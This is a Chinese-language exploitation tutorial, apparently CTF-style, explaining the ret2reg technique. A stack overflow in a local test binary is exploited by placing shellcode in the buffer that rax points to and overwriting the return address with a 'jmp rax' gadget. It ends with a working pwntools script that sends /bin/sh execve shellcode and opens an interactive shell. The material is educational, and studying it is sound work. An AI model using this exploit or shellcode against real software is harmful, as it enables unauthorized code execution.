



# ret2reg

寻找溢出缓冲区，实际上就是在栈溢出发生时，找到哪个寄存器（例如 EIP）指向了溢出的缓冲区。这个缓冲区通常是一个局部变量的数组，例如 char buf[64]，当向这个数组中写入超过其大小的数据时，就会发生溢出。


在溢出发生时，如果 寄存器rax 指向了这个缓冲区，也即是说，rax中保存到是这个缓冲区的首地址。


攻击时，往缓冲区中写入shellcode。

找到程序中一段jmp rax的gadgets，然后在函数保存的返回地址覆盖为gadgets的地址。

最后函数返回的时候会跳转到，jmp rax，由于rax保存的是shellcode的地址，于是就会跳转到shellcode，开始执行shellcode。


分析程序

主函数中从标准输入中使用gets读取字符，存储到数组buf中，然后调用copy函数，copy函数中会将主函数中的buf字符串，复制到copy函数中的buffer字符串。

由于主函数的buf字符串有1000字节，而copy函数中的buffer只有100字节，就有栈溢出漏洞。

而且rax保存了主函数buf数组的地址。






找到`jmp rax`的gadgets




构造payload

```python
#!/usr/bin/env python
from pwn import *

context.binary = binary = ELF("./test",checksec=False)
context.log_level = "debug"

#启动一个进程
p = process()

jmp_rax = p64(0x000000000040054f)
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"

#shellcode + 填充数据 + "jmp rax"gadgets
payload = shellcode + b"A" * (0x78 - len(shellcode)) + jmp_rax

p.sendline(payload)

p.interactive()
```

